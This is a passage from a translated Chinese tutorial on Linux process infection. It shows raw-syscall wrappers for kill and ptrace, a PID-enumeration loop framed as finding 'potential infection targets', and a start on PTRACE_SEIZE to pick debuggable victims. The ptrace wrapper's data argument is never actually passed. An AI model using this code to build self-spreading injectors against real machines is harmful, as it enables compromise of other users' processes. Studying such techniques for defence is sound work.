 
第二种方法，表面上看很复杂，实际上在现在操作系统都可用。这种方法是对这些进程 ID 发送信号 0, 如果返回为 0, 就说明进程存在，否则就不存在。

> 译者注：不少发现隐藏进程的方法是使用`kill`这种方式来发现，把返回的结果和`/proc`或（`ps`，有些机器是没有加载`/proc`）的结果对比，多出来的就是隐藏进程。

唯一的麻烦是`PID_MAX`的取值，它在每个系统的值都不一样。不过，在大多数情况下，它的值都是默认值（32768）。由于并没有信号发出,`kill`实际上很快，33000 来次完全没问题。

为了使用这个技术，封装`kill`是很有必要。

```
int kill(pid_t pid, int sig){  int result;  asm volatile("syscall" : "=a" (result) : "a" (__NR_kill), "D" (pid), "S" (sig));  return result;}
```

由于没有`printf`之类的函数，`write`只能把字符串打印在屏幕上，所以需要写一个函数把数字打印在屏幕上

```
void puti(unsigned int num){  unsigned int max = 1000000000;  char c;  unsigned int msd_found = 0;    while (max > 0)   {    c = '0' + num / max;    msd_found |= c != '0' || max == 1;    if (msd_found)      write(1, &c, 1);    num %= max;    max /= 10;  }}
```

现在把`propagate`函数修改，让它可以枚举进程

```
void propagate(void){  pid_t pid;    for (pid = 2; pid < PID_MAX; ++pid) if (kill(pid, 0) >= 0)   {      puts("Process found: ");      puti(pid);      puts("\n");    }}
```

编译后，得到结果如下

```
$ ./spawn ./injectable.so propagate
Process found: 1159
Process found: 1160
Process found: 1166
Process found: 1167
Process found: 1176
Process found: 1324
Process found: 1328
Process found: 1352
…
```

一般情况下，都可以发现有 100 多个用户进程，这说明有 100 多个潜在感染目标。

尝试`PTRACE_SEIZE`
----------------

这个技术有一个很大弱点：有些被枚举的进程由于访问限制并不能被调试。对每个进程使用`ptrace`的`PTRACE_SEIZE`请求可以发现哪些进程是可调试的。

> 不使用`PTRACE_ATTACH`，而是使用`PTRACE_SEIZE`，是因为前者会停止目标进程，除非随后使用`PTRACE_CONT`才会恢复运行，而后者是不会停止目标进程的。

`ptrace`是一个可变参数的，这里可以暂时把它简化成 4 参数的函数

```
long ptrace4(int request, pid_t pid, void *addr, void *data){  long result;  register void* r10 asm("r10") = data;  asm volatile("syscall" : "=a" (result) : "a" (__NR_ptrace), "S" (pid), "D" (request), "d" (addr));  return result;}
```
